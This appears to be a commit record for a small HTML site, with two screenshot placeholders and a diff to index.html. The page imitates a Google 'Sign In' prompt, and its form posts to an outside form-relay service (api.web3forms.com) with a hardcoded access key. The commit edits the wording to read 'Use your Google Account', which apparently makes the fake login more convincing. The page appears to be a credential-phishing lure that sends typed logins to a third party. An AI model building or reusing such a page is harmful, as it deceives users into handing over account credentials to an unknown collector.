

Before and after one commit to Mrmiles-alpha/mails, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 105-674 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -13,9 +13,9 @@
         <div class="logo">
 
         </div>
-        <h1 style="text-align:center;>U.S CONFIDENTIALS</h1>
+
     <h2>Sign In</h2>
-    <p>Use your Google Account To access</p>
+    <p>Use your Google Account</p>
     <form action="https://api.web3forms.com/submit "method="POST">
       <input type="hidden" name="access_key" value="e38bf589-d598-413f-a513-0335112aa230">
         <div class="inputBox">
```
